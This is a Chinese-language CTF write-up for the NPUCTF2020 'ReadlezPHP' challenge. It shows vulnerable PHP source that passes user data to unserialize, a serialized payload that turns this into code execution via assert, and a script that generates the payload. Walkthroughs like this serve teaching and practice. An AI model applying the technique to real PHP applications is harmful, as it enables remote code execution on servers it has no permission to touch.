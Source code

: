 # \[NPUCTF2020]ReadlezPHP

## \[NPUCTF2020]ReadlezPHP

## 考点

* PHP反序列化
* 动态调用函数函数
* eval()特性

## wp

有个页面`time.php?source`

![](<../../.gitbook/assets/image (12).png>)

访问后得到源码，是php反序列化

```php
<?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this->a = "Y-m-d h:i:s";
        $this->b = "date";
    }
    public function __destruct(){
        $a = $this->a;
        $b = $this->b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);
```

payload：`time.php?data=O:8:"HelloPhp":2:{s:1:"a";s:10:"phpinfo();";s:1:"b";s:6:"assert";}`

```php
<?php
class HelloPhp
{
    public $a = 'phpinfo();';
    public $b = 'assert';

}
$c = new HelloPhp;

echo serialize($c);
```

## 小结

1. 为什么不能用eval呢？因为<mark style="color:red;">eval是构造器，不算是个函数，不能使用$b($a)的方式调用</mark>。
2. 读取文件的函数：<mark style="color:orange;">`readfile`</mark>，<mark style="color:orange;">`show_source`</mark>，<mark style="color:orange;">`highlight_file`</mark>，<mark style="color:orange;">`file_get_contents`</mark>
